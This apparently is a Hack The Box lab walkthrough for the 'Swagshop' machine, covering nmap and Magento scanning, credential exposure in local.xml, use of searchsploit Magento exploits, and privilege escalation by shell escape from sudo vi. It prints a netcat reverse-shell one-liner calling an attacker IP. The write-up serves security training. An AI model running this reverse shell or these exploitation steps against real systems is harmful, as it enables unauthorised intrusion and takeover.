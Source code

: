 # Hack the Box - Swagshop
```CSS
Machine IP: 10.10.10.140 - Linux

Tags: magento
Vulnerabilities:
  - Magento SQL Injection
  - Magento PHP Object Injection
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.140 -T4 --min-rate 1000 -oN nmap.surface

Nmap scan report for 10.10.10.140
Host is up (0.20s latency).
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```CSS
▶ nmap -sC -sV -p 22,80 10.10.10.140 -oN nmap.deep

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6552bd24e8fa3817261379a12f624ec (RSA)
|   256 2e30007a92f0893059c17756ad51c0ba (ECDSA)
|_  256 4c50d5f270c5fdc4b2f0bc4220326434 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## HTTP
![image](https://user-images.githubusercontent.com/83878909/230385940-576fb9d4-0154-4a75-af4c-ffeae45b4231.png)

---

## Magento
- Tool: [magescan](https://github.com/steverobbins/magescan)
```CSS
▶ magescan.phar scan:all http://swagshop.htb
```
- Magento Version Information
![image](https://user-images.githubusercontent.com/83878909/230405839-266cdc0e-97b7-4b08-bd5a-0b2afc29502f.png)
- Sensitive Files
- Path: `http://swagshop.htb/app/etc/local.xml`
![image](https://user-images.githubusercontent.com/83878909/230406379-b3b0b66c-61ee-441d-93c7-dc25d708673c.png)
![image](https://user-images.githubusercontent.com/83878909/230406550-166475e5-9eb4-4f61-a20a-02d9a99e6496.png)
- MySQL Credentials: `root:fMVWh7bDHpgZkyfqQXreTjU9` | DB Name: `swagshop`

---

### Exploit
  - Searchsploit
![image](https://user-images.githubusercontent.com/83878909/230573995-d8195c5b-bb3f-43aa-922d-b665285d5004.png)
  - Modify exploit
![image](https://user-images.githubusercontent.com/83878909/230575074-34a8d22c-9187-4d74-8831-77f5f98c8340.png)
  - Run Exploit
![image](https://user-images.githubusercontent.com/83878909/230575192-080770c9-d1bc-4cc1-92ac-b2b19458de11.png)
  - Log in page URL: `https://swagshop.htb/index.php/admin`
  - Log in to Admin Panel with creds: `forme:forme`
![image](https://user-images.githubusercontent.com/83878909/230575373-03c3995f-6d22-4d80-b6f0-de065987d98a.png)
  - Admin Panel Accessible
![image](https://user-images.githubusercontent.com/83878909/230575645-6d0c0532-f73f-4b5c-a27e-833c806b0dd7.png)

  - Searchsploit
![image](https://user-images.githubusercontent.com/83878909/230576847-3317eaae-ea23-4d19-9f95-53fb7da677db.png)
  - Modify Exploit (username, password and install date) The original exploit did not work, modified exploit is in my Exploits repository.
  - Retrieve install date: `http://swagshop.htb/app/etc/local.xml`
![image](https://user-images.githubusercontent.com/83878909/230707818-894e563e-de27-4c7a-b528-cf3ec299b1cc.png)
  - Run Exploit
  - Reverse Shell(Bash): `"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 9001 >/tmp/f"`
![image](https://user-images.githubusercontent.com/83878909/230712785-8d0eb9cb-b64b-458b-9764-0cee1e3cedfc.png)

---

### Privilege Escaltion
  - Run: `sudo -l`
![image](https://user-images.githubusercontent.com/83878909/230713433-59c5b31e-e861-4602-b6dd-79247b41906f.png)
  - Can execute any file using `vi` as root located in `/var/www/html/*`.
  - Create a file `a` or with any name, not necessarily `a` using sudo.
  - From within `Vi` spawn a sshell as bash (:!/bin/bash). 
![image](https://user-images.githubusercontent.com/83878909/230713860-7540abca-3e4d-4f80-b657-0c4b132fceb1.png)

---
